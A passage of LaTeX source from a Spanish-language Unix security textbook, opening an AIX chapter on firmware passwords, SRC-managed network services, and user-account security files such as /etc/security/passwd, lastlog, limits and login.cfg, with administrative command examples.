Esta informaci\'on tiene el siguiente formato:
\begin{quote}
{\tt AUDIT\_CONNECT pid ruid shost sport dhost dport}\\
Conexi\'on desde la m\'aquina al {\it host} remoto {\tt dhost}.\\
{\tt AUDIT\_ACCEPT pid ruid shost sport dhost dport}\\
Conexi\'on desde el {\it host} remoto {\tt dhost} a la m\'aquina.\\
{\tt AUDIT\_LISTEN pid ruid shost sport}\\
El puerto indicado est\'a esperando peticiones de servicio.\\
{\tt AUDIT\_OPEN pid ruid file}\\
Se ha abierto el fichero {\tt file}.\\
{\tt AUDIT\_SETUID pid old\_ruid ruid euid}\\
Se ha llamado con \'exito a {\tt setuid()}, modificando el {\sc UID} de {\tt 
ruid} a {\tt euid}.\\
{\tt AUDIT\_EXEC pid ruid file}\\
Se ha ejecutado el fichero {\tt file}.\\
{\tt AUDIT\_MODINIT pid ruid file}\\
Se ha insertado en el {\it kernel} el m\'odulo {\tt file}.
\end{quote}
Al leer la informaci\'on de {\tt /proc/audit}, el demonio {\tt auditd} lee las
reglas de filtrado del fichero {\tt /etc/security/audit.conf}, comparando los
{\it flags}, {\sc pid} y {\sc ruid} ({\it Real User IDentifier}) recibidos con
cada una de las reglas del archivo de configuraci\'on hasta encontrar la
apropiada para tratar el evento. Una vez que el demonio {\tt auditd} ha 
encontrado el fichero donde almacenar la informaci\'on recibida, la guarda
en \'el con un formato legible.

\cleardoublepage
\chapter{AIX}
\section{Introducci\'on}
AIX ({\it Advanced Interactive eXecutive}) es la versi\'on de Unix desarrollada 
y mantenida desde hace m\'as de diez
a\~nos por IBM; sus or\'{\i}genes provienen de IBM RT System, de finales de los 
ochenta, y se ejecuta en las plataformas RS/6000, basadas en {\it chips} {\sc 
risc} PowerPC similares al utilizados por algunos Macintosh m\'as o menos 
modernos. Este operativo, mezcla de {\sc bsd} y {\it System V} (se suele decir
que no es ni uno ni otro) es el que m\'as caracter\'{\i}sticas propietarias 
incorpora, caracter\'{\i}sticas que no se encuentran en ninguna otra versi\'on 
de Unix, por lo que a cualquier administrador le costar\'a m\'as adaptarse a 
AIX que a otros Unices. No obstante, en favor de IBM hay que decir que dispone
de un excelente asistente para realizar todo tipo de tareas denominado {\sc 
smit} ({\it System Management Interface Tool}, tambi\'en ejecutado como {\tt 
smitty} en modo consola): aunque por supuesto cualquier tarea tambi\'en se 
puede ejecutar desde la l\'{\i}nea de comandos, esto generalmente no se hace 
con las \'ordenes habituales de Unix, por lo que {\sc smit} es una herramienta
indispensable para el administrador de la m\'aquina. AIX, a pesar de que en un 
principio pueda parecer el Unix m\'as arcaico -- y nadie niega que lo sea -- es 
un entorno de trabajo fiable y sobre todo extremadamente estable, e incluso 
incorpora caracter\'{\i}sticas (tanto de seguridad como de otros aspectos) que 
ya quisieran para s\'{\i} otros sistemas Unix.\\
\\El hecho de que muchas tareas no se realicen en AIX de la misma forma en que 
se llevan a cabo en el resto de Unices es en parte debido al {\sc odm} ({\it
Object Data Manager}); a diferencia de Solaris o Linux, en AIX debemos tener
presente en todo momento que {\tt vi} {\bf no} es una herramienta para 
administrar el sistema, ya que los cl\'asicos ficheros de configuraci\'on {\sc 
ASCII} han sido sustituidos por archivos binarios, bases de datos que mantienen
la configuraci\'on del sistema (aspectos como los dispositivos, los recursos 
del entorno, o el subsistema de comunicaciones de AIX) de forma m\'as robusta, 
segura y portable que los simples ficheros de texto, al menos en opini\'on de 
los desarrolladores de IBM (\cite{kn:bet00}).\\
\\IBM mantiene en Internet un excelente repositorio de documentaci\'on,
principalmente los denominados {\it RedBooks}, completos manuales sobre casi 
cualquier tema relacionado con AIX -- y otros productos de la compa\~n\'{\i}a --
que podamos imaginar. Est\'an disponibles en la direcci\'on {\tt 
http://www.redbooks.ibm.com/}, y algunos de ellos son una herramienta 
imprescindible para cualquier administrador de sistemas. Por supuesto, 
tambi\'en es muy recomendable instalar las p\'aginas del manual {\it on--line}
de AIX, algo que incomprensiblemente no se hace por defecto en una instalaci\'on
est\'andar, y utilizar {\sc smit} para ejecutar cualquier tarea que desde 
l\'{\i}nea de \'ordenes dudemos de c\'omo hacer.\\
\\En este cap\'{\i}tulo hablaremos de aspectos de la seguridad casi exclusivos
de AIX; al ser este sistema probablemente el Unix m\'as cerrado de todos, lo
que veamos aqu\'{\i} dif\'{\i}cilmente ser\'a extrapolable -- en la mayor\'{\i}a
de casos -- a otros entornos como Solaris o HP--UX. En cualquier caso, es
necesario para un administrador conocer los aspectos de AIX que le confieren su
enorme robustez, tanto en lo referente a seguridad como en cualquier otra faceta
gen\'erica del sistema.
\section{Seguridad f\'{\i}sica en RS/6000}
El {\it firmware} de los sistemas RS/6000 provee de tres modos de protecci\'on
f\'{\i}sica (\cite{kn:ibm00}), en cierta forma similares a las que ofrecen las 
estaciones {\sc
sparc} que comentamos al hablar de Solaris. El primero de ellos, denominado 
{\sc pop} ({\it Power--On Password}) es el equivalente al modo {\tt 
`full-secure'} de {\sc sparc}, y como \'este impide el arranque del sistema si 
antes no se ha introducido la contrase\~na determinada como {\sc pop}; por
supuesto, esto evita tareas como la planificaci\'on de reinicios autom\'aticos,
por lo que en muchas ocasiones no compensa el nivel de seguridad con el de
funcionalidad. Por eso existe un segundo modo de protecci\'on denominado {\it
Unattended start mode} que permite arrancar al sistema de su dispositivo por
defecto sin necesidad de que un operador teclee la contrase\~na {\sc pop} para
ello.\\
\\En el modo `desatendido' el sistema arranca con normalidad desde el 
dispositivo especificado por defecto sin necesidad de ninguna clave {\sc pop} 
(a pesar de que esta contrase\~na tenga que haber sido definida con 
anterioridad); el sistema arranca, pero la diferencia con el modo normal es que 
el controlador de teclado permanece bloqueado hasta el el {\it password} {\sc 
pop} es introducido. De esta forma se consigue que la m\'aquina proporcione 
todos sus servicios (el arranque es completo) pero que, si alguien quiere 
acceder a la misma desde consola, est\'e obligado a introducir la contrase\~na
{\sc pop} previamente definida.\\
\\Aparte del {\it password} {\sc pop}, en las m\'aquinas RS/6000 puede 
establecerse una segunda contrase\~na denominada {\sc pap} ({\it Privileged
Access Password}) o {\it Supervisory Password}, que protege el arranque del 
{\sc sms} 
({\it System Management Services}), un {\it firmware} que proporciona al
administrador de la m\'aquina ciertas utilidades de configuraci\'on de bajo 
nivel; el {\sc sms} es accesible en un determinado punto de la secuencia de
arranque de la m\'aquina, en concreto cuando el {\it display} marca {\sc `ff1'} 
y se pulsa una cierta tecla (generalmente {\tt `1'} en terminales de texto o 
{\sc `f1'} en terminales gr\'aficas), y desde sus men\'us se puede actualizar el
propio {\it firmware} o cambiar el dispositivo de arranque, por poner s\'olo un
par de ejemplos. Si la contrase\~na {\sc pap} est\'a habilitada se restringe el 
acceso al {\sc sms}, evitando que 
un atacante con acceso f\'{\i}sico al equipo puede modificar par\'ametros de la
m\'aquina vitales para nuestra seguridad.\\
\\Es importante establecer un {\it password} para proteger el {\sc sms}: si un
pirata consigue acceso al mismo, ni tan siquiera importar\'a si hemos definido 
o no
una contrase\~na {\sc pop}, ya que podr\'a deshabilitarla o incluso cambiarla
desde el {\sc sms}; el problema surge si la clave de nuestro {\it firmware} se
pierde, ya que en ese caso necesitar\'{\i}amos abrir el equipo y quitarle su
bater\'{\i}a, perdiendo en este caso toda la configuraci\'on almacenada en la
{\sc nvram}.\\
\\Desde la l\'{\i}nea de \'ordenes de un sistema AIX podemos ejecutar ciertos
mandatos que nos van a permitir tanto visualizar el valor de par\'ametros del 
{\it firmware} como modificar dicho valor; lamentablemente no tenemos un 
interfaz tan uniforme como en Solaris, donde a trav\'es de la orden {\tt 
eeprom} leemos y modificamos la informaci\'on de la {\sc nvram}, sino que en AIX
tenemos que utilizar diferentes \'ordenes para interactuar con el {\it 
firmware} de la m\'aquina. Por ejemplo, mediante un comando como {\tt bootlist}
podemos consultar y modificar la lista de dispositivos de arranque del sistema,
y mediante {\tt lscfg} obtener la versi\'on del {\it firmware} instalado en la
m\'aquina:
\begin{quote}
\begin{verbatim}
bruja:/# bootlist -m normal -o
hdisk0
fd0
cd0
ent2
bruja:/#
\end{verbatim}
\end{quote}
\section{Servicios de red}
Como en el resto de entornos Unix, en AIX es vital garantizar la seguridad de
los servicios de red de la m\'aquina para conseguir un entorno de trabajo 
fiable en su globalidad; no obstante, este operativo provee de una serie de 
herramientas que otros sistemas no proporcionan y que facilitan enormemente el
trabajo del administrador: es importante acostumbrarse a su manejo (recordemos
que en AIX {\tt vi} {\bf no} es una herramienta administrativa) a trav\'es de
{\sc smit} y, mucho mejor, desde l\'{\i}nea de \'ordenes. Por poner un ejemplo,
si a un administrador de un entorno Solaris, Linux o HP-UX le preguntamos 
c\'omo eliminar\'{\i}a el servicio {\tt chargen} en una m\'aquina, la respuesta
ser\'{\i}a siempre la misma: editando {\tt /etc/inetd.conf}, comentando la
l\'{\i}nea correspondiente con una almohadilla ({\tt `\#'}) y reiniciando el
demonio {\tt inetd} envi\'andole la se\~nal {\sc sighup}; si le preguntamos lo
mismo al {\tt root} de una m\'aquina AIX, lo m\'as probable (aunque podr\'{\i}a
hacerlo de la forma anterior) es que utilice una orden como {\tt chsubserver}, 
en un proceso similar al siguiente:
\begin{quote}
\begin{verbatim}
bruja:/# grep chargen /etc/inetd.conf
chargen        stream  tcp     nowait  root    internal
chargen        dgram   udp     wait    root    internal
bruja:/# chsubserver -d -v chargen -p udp
bruja:/# chsubserver -d -v chargen -p tcp
bruja:/# grep chargen /etc/inetd.conf
#chargen        stream  tcp     nowait  root    internal
#chargen        dgram   udp     wait    root    internal
bruja:/# refresh -s inetd
bruja:/#
\end{verbatim}
\end{quote}
En AIX los subsistemas de red son gestionados por el Controlador de Recursos del
Sistema ({\sc src}, {\it System Resource Controller}), un {\it software} que
proporciona comandos e interfaces uniformes para crear y controlar {\bf 
subsistemas} (\cite{kn:ibm97}), que no son m\'as que programas o procesos (o
combinaciones de los mismos) capaces de operar de forma independiente o a 
trav\'es de un controlador, algo que es m\'as o menos equivalente a lo que 
todos conocemos como `demonio' en cualquier Unix; podemos ejecutar la orden 
{\tt `lssrc -a'} para listar los subsistemas de nuestra m\'aquina AIX:
\begin{quote}
\begin{verbatim}
bruja:/# lssrc -a
Subsystem         Group            PID     Status 
 portmap          portmap          5684    active
 inetd            tcpip            7770    active
 xntpd            tcpip            6352    active
 automountd       autofs           6056    active
 hats             hats             9876    active
 hags             hags             8494    active
 hagsglsm         hags             9370    active
 haem             haem             6694    active
 haemaixos        haem             10662   active
 pman             pman             11372   active
 pmanrm           pman             12130   active
 sysctld                           11174   active
 snmpd            tcpip            15520   active
 sendmail         mail             16628   active
 dpid2            tcpip            16106   active
 fs                                19612   active
 biod             nfs              19874   active
 rpc.statd        nfs              20644   active
 qdaemon          spooler          15750   active
 writesrv         spooler          19366   active
 clstrmgr         cluster          32706   active
 clsmuxpd         cluster          42048   active
 nfsd             nfs              31168   active
 rpc.mountd       nfs              42904   active
 rpc.lockd        nfs              32004   active
 tftpd            tcpip            7586    active
 syslogd          ras              31852   active
 lpd              spooler                  inoperative
 clvmd                                     inoperative
 gated            tcpip                    inoperative
 named            tcpip                    inoperative
 routed           tcpip                    inoperative
 rwhod            tcpip                    inoperative
 iptrace          tcpip                    inoperative
 timed            tcpip                    inoperative
 dhcpcd           tcpip                    inoperative
 dhcpsd           tcpip                    inoperative
 dhcprd           tcpip                    inoperative
 ndpd-host        tcpip                    inoperative
 ndpd-router      tcpip                    inoperative
 llbd             iforncs                  inoperative
 glbd             iforncs                  inoperative
 i4lmd            iforls                   inoperative
 i4glbcd          iforncs                  inoperative
 i4gdb            iforls                   inoperative
 i4llmd           iforls                   inoperative
 mrouted          tcpip                    inoperative
 rsvpd            qos                      inoperative
 policyd          qos                      inoperative
 pxed             tcpip                    inoperative
 binld            tcpip                    inoperative
 dtsrc                                     inoperative
bruja:/# 
\end{verbatim}
\end{quote}
\begin{figure}
\begin{center}
\setlength{\unitlength}{3947sp}%
%
\begingroup\makeatletter\ifx\SetFigFont\undefined%
\gdef\SetFigFont#1#2#3#4#5{%
  \reset@font\fontsize{#1}{#2pt}%
  \fontfamily{#3}\fontseries{#4}\fontshape{#5}%
  \selectfont}%
\fi\endgroup%
\begin{picture}(6324,2424)(-11,-1648)
\thinlines
\put(976,314){\framebox(975,300){}}
\put(301,-286){\framebox(2625,300){}}
\put(676,-1486){\framebox(1725,300){}}
\put(826,-886){\framebox(1425,300){}}
\put(1426,314){\vector( 0,-1){300}}
\put(1426,-286){\vector( 0,-1){300}}
\put(1426,-886){\vector( 0,-1){300}}
\put(  1,-1636){\framebox(6300,2400){}}
\put(376,-211){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\sfdefault}{\mddefault}{\updefault}GRUPOS DE SUBSISTEMAS}}}
\put(1051,389){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\sfdefault}{\mddefault}{\updefault}SISTEMA}}}
\put(751,-1411){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\sfdefault}{\mddefault}{\updefault}SUBSERVIDORES}}}
\put(901,-811){\makebox(0,0)[lb]{\smash{\SetFigFont{12}{14.4}{\sfdefault}{\mddefault}{\updefault}SUBSISTEMAS}}}
\put(4051,389){\makebox(0,0)[lb]{\smash{\SetFigFont{14}{16.8}{\ttdefault}{\mddefault}{\updefault}(bruja)}}}
\put(3976,-211){\makebox(0,0)[lb]{\smash{\SetFigFont{14}{16.8}{\ttdefault}{\mddefault}{\updefault}(tcpip)}}}
\put(3976,-811){\makebox(0,0)[lb]{\smash{\SetFigFont{14}{16.8}{\ttdefault}{\mddefault}{\updefault}(inetd)}}}
\put(3526,-1411){\makebox(0,0)[lb]{\smash{\SetFigFont{14}{16.8}{\ttdefault}{\mddefault}{\updefault}(telnetd, ftpd...)}}}
\end{picture}
\end{center}
\caption{Estructura jer\'arquica del {\sc src}.}
\label{subsystem}
\end{figure}
Los subsistemas con funciones relacionadas entre s\'{\i} forman lo que se 
denomina {\bf grupos de subsistemas}, y adem\'as cada subsistema se divide en 
{\bf subservidores} (simples programas o procesos), formando una estructura
jer\'arquica como la mostrada en la figura \ref{subsystem} (figura en la que
adem\'as se muestra un ejemplo -- entre par\'entesis -- de cada categor\'{\i}a);
como podemos ver en ella, un grupo de subsistemas es {\tt tcpip}, que como su
nombre ya adelanta es el encargado de la gesti\'on de protocolos {\sc tcp/ip}, 
y que incluye a subsistemas tan importantes como {\tt inetd} o {\tt snmpd}. 
Mediante {\tt lssrc}, con las opciones adecuadas, podemos obtener informaci\'on 
detallada acerca de un subsistema o subservidor; por ejemplo, la siguiente 
orden nos muestra lo que hemos comentado anteriormente, que el subsistema {\tt 
inetd} pertenece al grupo {\tt tcpip}, y que en este caso concreto tiene
cuatro servidores activos ({\tt tftp}, {\tt klogin}, {\tt kshell} y {\tt ftp}):
\begin{quote}
\begin{verbatim}
bruja:/# lssrc -ls inetd
Subsystem         Group            PID     Status 
 inetd            tcpip            7770    active
  
Debug         Not active 
  
Signal        Purpose 
 SIGALRM      Establishes socket connections for failed services. 
 SIGHUP       Rereads the configuration database and reconfigures services. 
  
 SIGCHLD      Restarts the service in case the service ends abnormally. 
  
Service       Command                  Description              Status 
 tftp         /usr/sbin/tftpd          tftpd -d /tftpboot       active
 klogin       /usr/sbin/krlogind       krlogind                 active
 kshell       /usr/sbin/krshd          krshd                    active
 ftp          /usr/sbin/ftpd           ftpd                     active
  
bruja:/#
\end{verbatim}
\end{quote}
Como ya hemos dicho antes, el {\sc src} proporciona comandos comunes para
operar con todos sus subsistemas: disponemos de las \'ordenes {\tt startsrc} y 
{\tt stopsrc} para arrancar y detener -- respectivamente -- tanto subsistemas 
completos como subservidores de los mismos de forma independiente, y de {\tt 
traceson} y {\tt tracesoff} para activar o desactivar el trazado de los mismos;
la orden {\tt refresh} `refresca' un subsistema (algo similar a enviarle una 
se\~nal {\sc sighup}), mientras que mediante {\tt lssrc} podemos consultar el 
estado de un subsistema. Por ejemplo, para detener el subservidor {\tt telnetd} 
en nuestro sistema no tenemos que recurrir -- aunque podr\'{\i}amos hacerlo --
a {\tt chsubserver} (como vimos al inicio de este punto aplicando el ejemplo al
subservidor {\tt chargen}); una forma equivalente de hacerlo es simplemente 
ejecutando la siguiente orden:
\begin{quote}
\begin{verbatim}
bruja:/# startsrc -t telnet
0513-124 The telnet subserver has been started.
bruja:/# grep -w telnet /etc/inetd.conf
telnet  stream  tcp6    nowait  root    /usr/sbin/telnetd      telnetd -a
bruja:/# stopsrc -t telnet
0513-127 The telnet subserver was stopped successfully.
bruja:/# grep -w telnet /etc/inetd.conf
#telnet  stream  tcp6    nowait  root    /usr/sbin/telnetd      telnetd -a
bruja:/# 
\end{verbatim}
\end{quote}
\section{Usuarios y accesos al sistema}
Como vamos a ver en esta secci\'on, AIX ofrece un sistema de control de accesos 
y gesti\'on de usuarios realmente interesante; al igual que en cualquier entorno
Unix, nada m\'as instalar el operativo ya existen una serie de usuarios `del
sistema' ({\tt root}, {\tt daemon}, {\tt sys}\ldots). Todos ellos tienen en 
realidad las cuentas bloqueadas ya que el campo reservado a su contrase\~na en
{\tt /etc/security/passwd} es un asterisco, aunque una orden como {\tt
`lsuser'} nos diga lo contrario: 
\begin{quote}
\begin{verbatim}
bruja:/# lsuser -a account_locked ALL
root account_locked=false 
daemon account_locked=false 
bin account_locked=false 
sys account_locked=false 
adm account_locked=false 
uucp account_locked=false 
guest account_locked=false 
nobody account_locked=false 
lpd account_locked=false
imnadm account_locked=false 
nuucp account_locked=false 
bruja:/#
\end{verbatim}
\end{quote}
Si necesitamos que la cuenta de un determinado usuario se bloquee temporalmente
pero no queremos sustituir su clave del fichero de contrase\~nas por un
asterisco, podemos ejecutar
la orden {\tt `chuser'}\footnote{Es necesario recordar una vez m\'as que en 
AIX, a diferencia de otros Unices, {\tt vi} {\bf no es ninguna herramienta 
administrativa}.}:
\begin{quote}
\begin{verbatim}
bruja:/# lsuser -a account_locked toni
toni account_locked=false 
bruja:/# chuser account_locked=true toni
bruja:/# lsuser -a account_locked toni
toni account_locked=true 
bruja:/# 
\end{verbatim}
\end{quote}
La gesti\'on y el control de los accesos al sistema por parte de usuarios se
puede llevar a cabo desde diferentes ficheros del directorio {\tt 
/etc/security/}: por ejemplo, en el archivo {\tt user} se definen los diferentes
atributos de cada usuario del sistema, desde las propiedades de envejecimiento
de su contrase\~na a las franjas horarias en que el usuario pueden acceder a 
la m\'aquina; vamos a ver en los siguientes puntos algunos de estos archivos,
interesantes para definir o refinar par\'ametros relacionados con la seguridad
de nuestro sistema.
\subsection{El fichero {\tt /etc/security/.ids}}
El nombre de este archivo quiz\'as nos puede inducir a pensar que se trata de
algo relacionado con la detecci\'on de intrusos en nuestra m\'aquina; nada
m\'as lejos de la realidad: en el fichero {\tt .ids} se almacena informaci\'on
necesaria para generar correctamente a nuevos usuarios. Su formato es similar 
al siguiente:
\begin{quote}
\begin{verbatim}
bruja:/etc/security# cat .ids
8 210 11 205
bruja:/etc/security#
\end{verbatim}
\end{quote}
Donde {\tt `8'} y {\tt `11'} indican los siguientes {\sc uid} y {\sc gid}
(respectivamente) disponibles para usuarios con privilegios administrativos,
mientras que {\tt `210'} y {\tt `205'} son equivalentes pero para usuarios sin
dichos privilegios.\\
\\A no ser que conozcamos muy bien el sistema, no es recomendable modificar 
manualmente este archivo, ya que las herramientas de gesti\'on de usuarios lo 
actualizan de forma autom\'atica; de cualquier forma, aqu\'{\i} lo citamos para 
evitar confusiones con su nombre, como hemos comentado al principio.
\subsection{El fichero {\tt /etc/security/passwd}}
Al contrario de lo que sucede con el archivo {\tt .ids}, el nombre del fichero 
{\tt passwd} no da lugar a equivocaciones: se trata, evidentemente, de 
informaci\'on sobre las claves de los usuarios del sistema. Esta informaci\'on
puede estar desajustada con respecto a la contenida en {\tt /etc/passwd}, por
lo que es recomendable ejecutar peri\'odicamente -- al menos una vez al mes --
\'ordenes como {\tt pwdck}, {\tt usrck} o {\tt grpck}, encargadas de verificar, 
comparar y sincronizar la informaci\'on de los usuarios (definiciones, grupos y
autenticaci\'on) en las diferentes tablas que AIX mantiene:
\begin{quote}
\begin{verbatim}
bruja:/# pwdck -y ALL
The user "daemon" has an invalid password field in /etc/passwd.
The user "toni" has an invalid password field in /etc/passwd.
bruja:/# usrck -n ALL
User daemon is locked.
User bin is locked.
User sys is locked.
User nobody is locked.
User lpd is locked.
User imnadm is locked.
bruja:/# 
\end{verbatim}
\end{quote}
Tras sincronizar correctamente la informaci\'on de los usuarios (par\'ametro
{\tt `-y'} de estas \'ordenes), en {\tt /etc/passwd} nos encontraremos el
car\'acter {\tt `!'} en el campo reservado a la contrase\~na cifrada de cada 
entrada, mientras que las claves reales ya estar\'an en {\tt 
/etc/security/passwd}. Este fichero ha de ser de s\'olo lectura para el 
administrador: es en cierta forma similar al {\tt /etc/shadow} cl\'asico de 
otros Unices; no obstante, difiere enormemente de \'el en el formato del 
archivo, ya que no utiliza una entrada por l\'{\i}nea con los campos separados 
por el car\'acter {\tt `:'}. Por contra, en AIX cada usuario tiene definidos
una serie de campos, uno por l\'{\i}nea, y con el identificador del campo y su
contenido separados por un signo {\tt `='}; por ejemplo, la entrada para el
usuario {\tt `oracle'} en {\tt /etc/security/passwd} podr\'{\i}a ser similar a
la siguiente:
\begin{quote}
\begin{verbatim}
oracle:
        password = be3a2NjB.dtbg
        lastupdate = 995301219
        flags = 
\end{verbatim}
\end{quote}
El primer campo representa obviamente la contrase\~na cifrada del usuario;
el segundo representa el la fecha y hora de la \'ultima actualizaci\'on del
conjunto de atributos (denominado {\it `stanza'}) del usuario, y finalmente el
campo {\tt `flags'}, por defecto vac\'{\i}o, puede contener una serie de
par\'ametros caracter\'{\i}sticos del usuario concreto: si se trata de un
usuario con cierto privilegio, si no necesita contrase\~na para conectar al
sistema\ldots; para obtener m\'as informaci\'on sobre estos par\'ametros 
podemos consultar la p\'agina del manual de {\tt `pwdck'}.
\subsection{El fichero {\tt /etc/security/failedlogin}}
Como su nombre indica, en este fichero se registran los intentos fallidos de
acceso al sistema; su formato no es de texto plano, sino que es similar a
los ficheros {\tt wtmp} de AIX y otros sistemas Unix. Por tanto, para 
visualizar el contenido de este archivo necesitamos ejecutar \'ordenes como 
{\tt `last'} o {\tt `who'} con los par\'ametros adecuados:
\begin{quote}
\begin{verbatim}
bruja:/# who -s /etc/security/failedlogin |tail -3
oracle      pts/24      Sep  5 12:55    (luisa)
UNKNOWN_    dtlogin/_0  Sep 12 11:01                    
toni        pts/23      Sep 13 15:45    (anita)
bruja:/# 
\end{verbatim}
\end{quote}
\subsection{El fichero {\tt /etc/security/lastlog}}
En el archivo {\tt /etc/security/lastlog} de un sistema AIX, un fichero de
texto plano que poco tiene que ver con el formato del {\tt `lastlog'} de otros 
Unices, se encuentra almacenada informaci\'on relativa a la \'ultima 
conexi\'on -- o intento de conexi\'on -- de cada usuario de la m\'aquina; en
concreto, aparecen referencias a la hora, terminal y {\it host} origen de la
\'ultima entrada al sistema y del \'ultimo intento de acceso.\\
\\Cuando un usuario es creado mediante {\tt mkuser} (o equivalentemente, 
v\'{\i}a {\sc smit}) se crea una {\it stanza} vac\'{\i}a para el mismo en este 
archivo cuyos campos se ir\'an rellenando a medida que el usuario acceda al
sistema; esta {\it stanza} puede ser similar a la siguiente:
\begin{quote}
\begin{verbatim}
toni:
        time_last_login = 1005297794
        tty_last_login = ttyp0           
        host_last_login = anita
        unsuccessful_login_count = 0         
        time_last_unsuccessful_login = 1004445794
        tty_last_unsuccessful_login = /dev/pts/14     
        host_last_unsuccessful_login = luisa
\end{verbatim}
\end{quote}
Como podemos ver, el nombre de cada campo es autoexplicativo de su funci\'on; el
\'unico que quiz\'as puede plantear alguna duda es {\tt 
unsuccessful$\_$login$\_$count}, que no es m\'as que un contador que indica el
n\'umero de intentos de acceso fallidos desde la \'ultima entrada al sistema.\\
\\Para consultar los par\'ametros de cada usuario almacenados en este archivo
no es necesario editar o visualizar el fichero: mediante la orden {\tt lsuser}
podemos obtener el valor de cada uno de ellos; si por ejemplo nos interesa
el nombre de la m\'aquina desde la que el usuario {\tt toni} accedi\'o por
\'ultima vez al sistema, podemos conseguirlo de esta forma:
\begin{quote}
\begin{verbatim}
bruja:/# lsuser -a host_last_login toni
toni host_last_login=anita
bruja:/# 
\end{verbatim}
\end{quote}
\subsection{El fichero {\tt /etc/security/limits}}
En este archivo se definen l\'{\i}mites a algunos de los recursos que ofrece un
entorno de trabajo AIX; como muchos de los archivos del directorio, contiene
una {\it stanza} que se aplica por defecto y luego entradas -- vac\'{\i}as por 
lo general -- para cada usuario, en las que se pueden personalizar par\'ametros 
que s\'olo se aplican a uno o varios usuarios y no a todos (generalmente se 
definen al crear al usuario). Las diferentes directivas del archivo son las
siguientes: 
\begin{itemize}
\item {\tt fsize}\\
Tama\~no m\'aximo de un archivo en bloques de 512 {\it bytes}.
\item {\tt core}\\
Tama\~no m\'aximo de un fichero {\tt core} (volcado de memoria) en bloques de 
512 {\it bytes}.
\item {\tt cpu}\\
Tiempo l\'{\i}mite de CPU por proceso, especificado en segundos. Por defecto no
est\'a establecido para ning\'un usuario.
\item {\tt data}\\
L\'{\i}mite de tama\~no del segmento de datos de un proceso del usuario, en 
bloques de 512 {\it bytes}.
\item {\tt stack}\\
L\'{\i}mite de tama\~no de la pila de un proceso en bloques de 512 {\it bytes}.
\item {\tt rss}\\
L\'{\i}mite del tama\~no de memoria utilizada por proceso, en bloques de 512 
{\it bytes}.
\item {\tt nofiles}\\
N\'umero m\'aximo de descriptores de fichero abiertos.
\end{itemize}
Cada uno de los l\'{\i}mites anteriores es un l\'{\i}mite {\it soft} (blando)
que el usuario puede sobrepasar si lo desea, modificando su valor mediante 
la orden {\tt ulimit}; existen, definidos en el mismo archivo, l\'{\i}mites {\it
hard} (duros) que el usuario no puede incrementar de ninguna forma. El nombre
de cada uno de ellos es el mismo que el de su equivalente {\it soft} pero 
a\~nadi\'endole la coletilla {\tt `$\_$hard'}: {\tt fsize$\_$hard}, {\tt 
rss$\_$hard},etc.\\
\\Podemos ver los l\'{\i}mites aplicables a uno o m\'as usuarios mediante la 
orden {\tt `lsuser'} (un valor de `-1' indica que se trata de un recurso no
limitado al usuario en cuesti\'on):
\begin{quote}
\begin{verbatim}
bruja:/# lsuser -f -a fsize core cpu data stack rss nofiles toni
toni:
        fsize=2097151
        core=2097151
        cpu=-1
        data=262144
        stack=65536
        rss=65536
        nofiles=2000

bruja:/# 
\end{verbatim}
\end{quote}
Por defecto, AIX ofrece unos l\'{\i}mites bastante razonables a los recursos que
cada usuario puede consumir; no obstante, en funci\'on de para qu\'e se utilice
cada sistema concreto, es recomendable que sea el administrador el que deba 
especificar qu\'e limites impone a los usuarios sobre los recursos de la
m\'aquina para prevenir negaciones de servicio contra los mismos.
\subsection{El fichero {\tt /etc/security/login.cfg}}
En este archivo se definen ciertos par\'ametros de control para las conexiones
remotas a un sistema AIX; como veremos en este punto, todos ellos tienen
implicaciones directas, aunque de diferente grado, en la seguridad del entorno
de trabajo. Se puede dividir en tres grandes \'areas: la correspondiente a la
definici\'on de puertos, la relativa a m\'etodos de autenticaci\'on de usuarios
y la que define atributos tambi\'en de los usuarios; todas ellas contienen una
{\it stanza} por defecto, y adicionalmente definiciones particulares para 
elementos concretos.\\
\\La primera gran \'area del archivo, la relativa a los puertos, est\'a formada
por una serie de par\'ametros que definen caracter\'{\i}sticas del acceso al
sistema a trav\'es de ellos; la primera directiva de este grupo es {\tt 
herald}, que permite definir el
mensaje que se muestra en la pantalla del usuario que trata de establecer una
conexi\'on remota con el sistema (algo similar al archivo {\tt /etc/motd} del
resto de Unices, fichero que en AIX no existe -- y si es creado no tiene efecto 
--). Cuando tratamos de acceder a una m\'aquina AIX el mensaje que se muestra
es similar al siguiente:
\begin{quote}
\begin{verbatim}
luisa:~$ telnet bruja
Trying 192.168.0.10...
Connected to bruja.
Escape character is '^]'.


telnet (bruja)

AIX Version 4
(C) Copyrights by IBM and by others 1982, 1996.
login:  
\end{verbatim}
\end{quote}
Modificando la directiva {\tt herald} de {\tt /etc/security/login.cfg} podemos
definir otros mensajes de presentaci\'on; si por ejemplo queremos simular que
nuestra m\'aquina ejecuta Solaris en lugar de AIX, podemos emular el mensaje
del primero:
\begin{quote}
\begin{verbatim}
bruja:/# grep herald /etc/security/login.cfg
herald = "SunOS 5.8\n\nlogin: "
bruja:/# 
\end{verbatim}
\end{quote}
As\'{\i}, cuando un usuario trate de conectar al sistema, ver\'a algo parecido 
a lo siguiente:
\begin{quote}
\begin{verbatim}
bruja:/# telnet 0
Trying...
Connected to 0.
Escape character is '^]'.

SunOS 5.8

login:^D Connection closed.
bruja:/#
\end{verbatim}
\end{quote}
Relacionada con el anterior par\'ametro tenemos la directiva {\tt herald2}, 
formada por una cadena de texto y que define el mensaje de {\it login} impreso
en la terminal tras un intento fallido de acceso al sistema; por defecto, esta
cadena de texto es un nuevo {\it prompt} de {\it login}.\\
\\Tambi\'en relativa a los puertos, otra directiva interesante que podemos 
encontrar en el fichero {\tt login.cfg}
es {\tt logindelay}, que permite especificar el retardo en segundos entre
intentos consecutivos de entrada al sistema; si es diferente de 0 (si es 0 se
deshabilita su efecto) el valor de este par\'ametro se multiplica por el 
n\'umero de intentos fallidos: si {\tt logindelay} es 1 el retardo entre el 
primer y el segundo intento ser\'a de un segundo, entre el segundo y el tercero
ser\'a de dos, etc. Junto a este par\'ametro podemos definir tambi\'en la
directiva {\tt logindisable}, que marca el n\'umero de intentos de entrada al
sistema fallidos que una conexi\'on acepta antes de cerrarse -- o bloquearse, si
se trata de una l\'{\i}nea serie --, {\tt logininterval}, que define los 
segundos durante los que se tienen que producir los intentos fallidos de 
conexi\'on para que se cierre o bloquee la misma, y {\tt loginreenable}, que
